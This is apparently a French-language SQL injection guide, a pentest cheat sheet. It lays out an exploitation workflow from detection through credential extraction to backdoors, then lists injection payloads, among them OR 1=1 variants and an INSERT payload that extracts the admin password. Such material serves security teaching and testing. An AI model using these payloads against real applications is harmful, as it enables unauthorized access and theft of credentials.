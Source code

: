 # SQL Injection - Guide Complet

## 🗂️ Workflow d'exploitation SQL Injection
1. Détection des paramètres vulnérables (', ", UNION, blind)
   ↓
2. Identification du type de base de données (erreurs, fonctions)
   ↓
3. Énumération de la structure (tables, colonnes, utilisateurs)
   ↓
4. Extraction des données sensibles (credentials, données métier)
   ↓
5. Élévation de privilèges (lecture/écriture fichiers, exécution code)
   ↓
6. Post-exploitation (backdoors, persistance)

## 📋 Vue d'ensemble

L'injection SQL est une vulnérabilité qui permet d'exécuter des requêtes SQL arbitraires dans une base de données en manipulant les entrées utilisateur non filtrées.

> **💡 Explication Simple** : C'est comme glisser un faux message dans une conversation téléphonique. Au lieu de dire "Cherche l'utilisateur John", on fait dire à l'application "Cherche l'utilisateur John' OU montre-moi tous les mots de passe".

## 🔍 Détection des Injections SQL

### Tests de base
```sql
-- Caractères de test simples
'
"
`
')
")
`)

-- Tests logiques
' OR 1=1--
" OR 1=1--
' OR 'a'='a
" OR "a"="a

-- Tests avec commentaires
' OR 1=1#
' OR 1=1/*
' OR 1=1-- -
```

### Tests par contexte
```sql
-- Dans un WHERE avec chaîne
admin' OR '1'='1
admin" OR "1"="1

-- Dans un WHERE numérique
1 OR 1=1
1 OR 1=1--

-- Dans un INSERT
', (SELECT password FROM users WHERE username='admin'))--

```